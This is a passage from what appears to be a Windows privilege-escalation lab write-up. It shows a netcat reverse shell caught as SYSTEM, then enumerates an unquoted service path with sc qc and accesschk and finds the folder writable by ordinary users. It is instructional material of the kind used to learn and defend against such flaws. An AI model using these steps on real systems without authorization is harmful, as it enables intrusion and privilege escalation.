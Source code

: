 ```bash
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.27.238 49751 received!
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```




**`Service Exploits - Unquoted Service Path`**



- check which privilege that run service

```bash
C:\PrivEsc>sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```

service start using `SYSTEM privilege` (`SERVICE_START_NAME`)

- check permission 

```bash
C:\PrivEsc>accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

`BUILTIN\Users group is allowed to write`

